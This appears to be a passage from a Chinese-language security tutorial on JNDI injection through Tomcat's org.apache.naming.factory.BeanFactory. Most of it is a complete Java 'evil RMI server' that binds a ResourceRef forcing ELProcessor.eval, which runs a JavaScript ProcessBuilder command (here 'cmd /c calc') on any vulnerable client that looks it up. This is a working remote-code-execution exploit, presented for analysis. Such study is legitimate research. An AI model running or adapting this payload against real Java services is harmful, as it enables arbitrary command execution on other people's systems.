 tomcat-catalina.jar中`org.apache.naming.factory.BeanFactory`继承了`ObjectFactory`,还覆写了`getObjectInstance`

![image-20221126131527587](img/image-20221126131527587.png)

先给出payload，可以根据payload进行动态分析

Server:

```java
package org.example.RMI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}

```
